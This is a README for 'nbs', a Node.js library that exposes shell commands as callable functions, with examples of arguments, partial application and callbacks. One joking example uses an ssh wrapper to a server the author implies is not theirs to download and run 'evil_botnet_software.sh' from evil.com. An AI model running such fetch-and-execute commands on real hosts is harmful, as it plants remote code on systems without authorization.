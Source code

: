 node-nbs
========

Shelling out with `child_process` is just ... so ... drab. Relieve the tedium
with `nbs`!

```javascript
var sh = require("nbs"),
    curl = sh("curl", {silent: true});
curl("http://httpbin.org/user-agent", function(err, result) {
    console.log(JSON.parse(result)["user-agent"]); // curl/7.30.0
});
// Of course this is a horribly contrived example. You should use `http.get`.
```

Now everything in `$PATH` has node bindings!

Literal Arguments
-----------------

Anything you pass directly to your wrapper function gets passed through.

```javascript
var mkdir = sh("mkdir");
mkdir("example_directory");
```

Multiple arguments can be provided.

```javascript
mkdir("-p", "parent/child");
```

Spaces and the like are automatically escaped.

```javascript
mkdir("Some directory with spaces! Wooo! Rebellion!");
```

Remember that, because this is node, everything is asynchronous, all our calls
will return immediately and execute in parallel. [Libraries like
`async`](https://github.com/caolan/async) or promises are good mechanisms for
organizing this mayhem.

Partial Application
-------------------

You know, I kinda wish `mkdir` supplied `-p` by default.

```javascript
mkdir = mkdir.partial("-p");
mkdir("another-parent/child");
```

Oh! Look at that! It's okay I guess. I just wish it required **exactly one**
less function call. If only we could apply the partial when creating `mkdir`....

```javascript
var mkdir = sh("mkdir", "-p");
```

Alright. That looks cool, but kinda limited in use.

```javascript
var ssh = sh("ssh"),
    definitelyMyServer = ssh.partial("notmyserver.com", "-p 1234"),
    remoteCurl = definitelyMyServer.partial("curl", "--silent");

remoteCurl("-O", "http://evil.com/evil_botnet_software.sh");
definitelyMyServer("sh", "evil_botnet_software.sh");
// Please only use this on PHP websites
```

Callbacks
---------

Because the output of commands is **occasionally useful**, I guess it might be
**moderately interesting** if there was some way to read them. The easiest way
is with a callback.

```javascript
var _s = require("underscore.string"),
    ls = sh("ls", "-1");
ls(function(err, result) {
    if(err) {
        throw err; // Oh my god! Something horrible must have happened!
    }
    console.log(_s.strip(result).split("\n"));
});
// ["another_parent", "example_directory", ... ]
```

Even More Stuff
---------------

I'm not done writing yet. But there's plenty more features in there, and many
ideas left to implement!

Portability
-----------

Because we're dealing with platform-specific commands, shelling out on Linux and
OS X will almost certainly be different than on Windows. Adding insult to
injury, I haven't even tested this on Windows. Oh well; it's not like Windows
has a significant market share.

See Also
--------

`nbs` is based on the python module, `sh` by Andrew Moffat. [`sh` is hosted on
GitHub.](http://amoffat.github.io/sh/) I even lifted some examples from his
documentation!

`nbs` would be called `sh`, but that name [was already taken by another project
with some similar goals.](http://shjs.tuton.fr/) It's worth checking out too
(although *my* project is *clearly* better). `nbs`'s name is derived from `sh`'s
former name, `pbs`.
